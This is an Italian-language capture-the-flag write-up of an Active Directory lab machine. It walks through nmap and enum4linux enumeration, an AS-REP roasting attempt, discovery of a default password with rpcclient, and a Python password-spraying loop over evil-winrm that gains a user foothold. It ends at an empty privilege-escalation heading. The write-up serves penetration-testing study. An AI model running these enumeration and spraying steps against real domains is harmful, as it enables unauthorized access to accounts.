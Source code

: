 ## Information Gathering

Tramite una prima scansione al volo con nmap scopro i seguenti servizi interessanti attivi:

```
nmap -sV -sS -O -A <IP>

PORT     STATE SERVICE      VERSION
53/tcp   open  domain
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-04-02 17:57:14Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped

```

Contemporaneamente con enum4linux sono emersi diversi usernames e gruppi. Prelevo il frammento e "pulisco" il testo per estrarre gli usernames puliti con il seguente script:

```
import re 

users = "[Administrator] rid:[0x1f4] \
user:[Guest] rid:[0x1f5] \
etc..."

usr = users.split("user")

for x in usr:
	y = re.findall("\[(.*?)\]", x)[0]
	with open("clean_usr.txt", mode="w+") as f:
    f.write(y)
```
Creato il listato, lo uso per provare a sniffare dei TGT dal servizio di Kerberos:

```
python GetNPUsers.py htb.local/ -no-pass -usersfile clean_user.txt -dc-ip 10.10.10.XXX
```
Ma non ne ricavo nulla...
Quindi effettuo anche una scansione del servizio rpcclient:

```
rpcclient -W workgroup -c querydispinfo -U '' -N  res
```

E scopro una password default per l'utenza "marko": Welcome123!

## Exploiting in the System

A questo punto, grazie a [Lorenzo Invidia](https://github.com/lorenzoinvidia), scopro che la password non è più valida per Marko, tuttavia potrebbe essere valida per altri!

Quindi scrivo il seguente script, che prova a collegarsi alla macchina (e con la password sopracitata) per tutti gli utenti ricavati:

```
import os

with open("users_list.txt", mode="r") as f:
	users = f.read().splitlines()

for x in users:
	stream = os.popen("evil-winrm -u "+ x +" -p Welcome123! -i resolute")

	if "WinRM::WinRMAuthorizationError" in stream.read():
		print "[-] " + x + " non valido"
	else:
		print "[*] Utente trovato: " + x
		exit(0)
```

Trovo così l'utenza di melanie. Entro nel sistema e trovo il primo flag!

## Privilege Escalation
    
